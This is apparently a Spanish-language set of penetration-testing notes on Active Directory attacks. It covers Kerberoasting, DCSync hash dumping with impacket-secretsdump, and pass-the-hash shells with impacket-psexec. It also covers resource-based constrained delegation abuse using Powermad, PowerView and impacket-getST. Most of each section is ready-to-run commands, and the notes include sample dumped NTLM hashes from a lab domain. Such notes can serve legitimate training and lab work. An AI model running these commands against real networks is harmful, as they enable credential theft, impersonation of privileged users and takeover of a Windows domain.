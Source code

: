 ---- 
## Kerberoasting Attack:

##### Al tener credenciales validas, podriamos efectuar un kerberoasting attack:

```shell
GetUserSPNs.py {dc}/{user}:{passwd}
# En caso de que esto tirase error, por ejemplo por estar desactivada el registro NTLM:
GetUserSPNs.py {dc}/{user}:{passwd} -k -debug
# -k tirar de kerberos, -debug --> ver errores 
# Podriamos buscar el error que nos arroja la consola, y ver que habria que modificar el script de GetUsersSPNs.py
# Linea 260 aprox, en funcion run: 
# new line ---> target = self.__kdcHost
# old line --> #target = self.getMachineName()  <-- old line 260 code that we're no longer running
impacket-GetUserSPNs {dc}/{user}:{passwd} -k -debug -dc-ip {target_ip} -dc-host {dc}
# De esta manera nos devolveria un SPN --> (Service Principal Name: esto esta asociado a un objeto de ad (cuenta de user, group o pc) en el cual el servicio se ejecuta)

```



## DCSync attack:

##### Permite al atacante simular el comportamiento del Domain Controller 
##### ( #DC ) y recuperar datos de conraseñas a través de replicación de domino. 

### Proceso: 

- ##### El atacante descubre el domain controller para solicitar la replicación.
- ##### El atacante solicita la replicación de usuarios mediante #GetNCChangesolic 
- ##### El DC retorna la respuesta, inluyendo los hashes de las contraseñas de los usuarios. 

##### Muchas veces la infraestructura de las organizaciones necesita más de un #DC, para el #AD. Para mantener la choerencia de un entorno con más de un DC , es necesario que los objetos de AD se repliquen a través de esos DC. 
##### La mayoria de las tareas relacionadas con la replicación se especifican en el Protocolo remoto de Serivico de replicación de directorios. 

## Explotación 

##### Cuando un usuario posee los permisos de GetChanges y GetChangesAll podrá realizar una replicación de dominio, de esta manera podemos usar herramientas como impacket para obtener los hashes de las contraseñas de los usuarios...

```shell
impacket-secretsdump {domain}/{user}@{target_ip}

# Ejemplo 
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/userx@10.10.10.175
# Esto realizara la replicación y nos arrojara algo como lo siguiente: 
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
# En donde podemos ver los hashes de las contraseñas de los usuarios, por ejemplo, el hash de la password de el usuario Administrator es "823452073d75b9d1cf70ebdf86c7f98e", 
```

##### Teniendo el hash de la contraseña del usuario, podemos utlizar la herramienta "impacket-psexec" (Herramienta de línea de comandos que permite a los admins de sistemas ejecutar comandos), para solicitar un consola interactiva:

```shell
impacket-psexec {domain}/{user}@{target_ip} cmd.exe --hashes :{hash}
# Esto nos arrojaria una consola interactiva con permisos de administrador

# Ejemplo 
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 cmd.exe --hashes :823452073d75b9d1cf70ebdf86c7f98e

```

---

## Resource-based Constraint Delegation:

##### El Resource-based Constraint Delegation establece en el objeto quién puede suplantar a cualquier usuario en su contra.
##### En este caso, el objeto restringido tendrá un atributo llamado msDS-AllowedToActOnBehalfOfOtherIdentity con el nombre del usuario que puede suplantar a cualquier otro usuario en su contra.
###### Otra diferencia importante de esta Delegación restringida a las otras delegaciones es que cualquier usuario con permisos de escritura sobre una cuenta de máquina (GenericAll/GenericWrite/WriteDacl/WriteProperty/etc) puede configurar el msDS-AllowedToActOnBehalfOfOtherIdentity (En las otras formas de Delegación necesitaba administrador de dominio privs).

- ##### El atacante compromete una cuenta que tiene un SPN o crea uno ("Servicio A"). Tenga en cuenta que cualquier usuario administrador sin ningún otro privilegio especial puede crear hasta 10 objetos de equipo (MachineAccountQuota) y establecerles un SPN. Entonces, el atacante puede simplemente crear un objeto de computadora y establecer un SPN.
- ##### El atacante abusa de su privilegio de ESCRITURA sobre la computadora víctima (ServiceB) para configurar la delegación restringida basada en recursos para permitir que ServiceA suplante a cualquier usuario contra esa computadora víctima (ServiceB).
- ##### El atacante usa Rubeus (U otras maneras de explotar y realizar el ataque) para realizar un ataque S4U completo (S4U2Self y S4U2Proxy) del Servicio A al Servicio B para un usuario con acceso privilegiado al Servicio B.
	- ##### S4U2Self (de la cuenta SPN comprometida/creada): Solicite un TGS de administrador para mí (no reenviable).
	- ##### S4U2Proxy: use el TGS no reenviable del paso anterior para solicitar un TGS del administrador al host de la víctima.
	- ##### Incluso si está utilizando un TGS no reenviable, ya que está explotando la delegación restringida basada en recursos, funcionará.
- ##### El atacante puede pasar el ticket y hacerse pasar por el usuario para obtener acceso al ServiceB de la víctima.

### Explotación:

##### Así como se puede explotar con Rubeus, existen otras maneras, desde el script rbcd.py encontrado en github https://github.com/tothi/rbcd-attack, así como tambien usando las herramientas de impacket:

##### Lo primero que deberiamos hacer es crear el Computer Objetc, para esto usaremos powermad (Se recomienda tambien usar powerview)
- ##### Powermad: (wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1) 
- ##### Powerview: (wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)
##### Ambos deberian transferirise a la maquina victima windows que tenemos pwneada, una vez en ella:

```powershell 
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1
New-MachineAccount -MachineAccount {evilPC_name} -Password $(ConvertTo-SecureString '{evilPC_passwd}' -AsPlainText -Force) -Verbose
```

##### Una vez creada la maquina, podriamos (haciendo uso de powerview) ver si esta se creo correctamente: 

```powershell
Get-DomainComputer {evilPC_name}
```

#### Luego, haciendo uso de powerview declaramos algunas variables para realizar el ataque: 

```powershell
$targetComputer = {taget_Computer}

$ComputerSid = Get-DomainComputer {evilPC_name} -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Adicionalmente, una vez más, haciendo uso de powerview podriamos corroborar que todo haya salido ok, ejecutando: 

Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

# Lo que deberia arrojar: 
# msds-allowedtoactonbehalfofotheridentity

# ----------------------------------------

# {1, 0, 4, 128...}
```

#####  De esta manera habriamos realizado todo, solo quedaria solicitar un TGT a #KERBEROS para suplantar la identidad del usuario que deseemos. 
##### En nuestra maquina atacante con linux: 

```shell
impacket-getST -spn cifs/{dc} -impersonate {user_to_supplant} -dc-ip {dc_ip} {dc}/{evilPC_name}$:{evilPC_password}
```

##### De esta manera habriamos solicitado y conseguido el TGT para el usuario que desearamos, por lo que simplemente quedaria exportart la variable global KRB5CCNAME, y utilizar psexec para autenticarnos como el usuario suplantado: 

```shell
export KRB5CCNAME=$(pwd)/{user_to_supplant}.ccahe

impacket-psexec -k {dc}
```